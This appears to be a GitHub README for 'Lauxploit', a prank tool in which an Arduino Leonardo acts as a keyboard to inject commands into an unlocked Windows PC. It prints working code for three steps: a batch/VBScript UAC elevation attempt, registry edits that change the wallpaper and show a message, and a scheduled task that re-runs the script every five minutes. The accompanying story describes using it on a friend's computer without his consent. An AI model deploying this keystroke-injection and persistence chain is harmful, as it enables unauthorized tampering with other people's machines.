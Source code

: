 # Lauxploit

Forked from code of my evil mate [@henyxia](https://www.github.com/henyxia) ...

Will use to change wallpaper automatically (instead of changing internet homepage...)
-> I will only change Part 2

So I create a small script designed for Arduino Leonardo to work as a keyboard and inject a custom task to Windows' task scheduler.

### The first part - the privilege escalation
```
@whoami /groups | find "S-1-16-12288" > nul && goto :admin
set "ELEVATE_CMDLINE=cd /d "%~dp0" & call "%~f0" %*"
findstr "^:::" "%~sf0">temp.vbs
cscript //nologo temp.vbs & del temp.vbs & exit /b
::: Set objShell = CreateObject("Shell.Application")
::: Set objWshShell = WScript.CreateObject("WScript.Shell")
::: Set objWshProcessEnv = objWshShell.Environment("PROCESS")
::: strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
::: objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
:admin -------------------------------------------------------------
@echo off
echo.
cmd /k
```

### The second part - the main script
```
reg add "HKCU\control panel\desktop" /v Wallpaper /t REG_SZ /d "C:\sweet_wallpaper.bmp" /f
reg add "HKCU\control panel\desktop" /v WallpaperStyle /t REG_SZ /d 2 /f
RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters
Msg * "To my beloved OLD secret admirer, please receive this gift as a mark of my unwavering love for you"
```
/!\ : this works only with .bmp files !

### The third part - the scheduler

```
schtasks /create /sc minute /mo 5 /tn "Lauxploit" /tr C:\Lauxploit.bat
```

## And now it runs !
The privilege escalation part is not mandatory but I thought it was fun to put it at the root of "C:\". Also, you need to have the correct keymapping for the Leoanardo.

**Use it for fun only !**

----
Background Story from [@henyxia](https://www.github.com/henyxia) :

A friend of mine [@Biboon](https://www.github.com/biboon) always had the bad idea to leave his computer unlocked.
I told him to lock it, as it might be really unsecure.
I did not.
I changed his homepage to a really "nice" site.
We laught.

Some days later, he did it again. I changed his homepage again. We laught again but he told me that it's not useful to lock a computer if you went AFK less than 20 seconds.
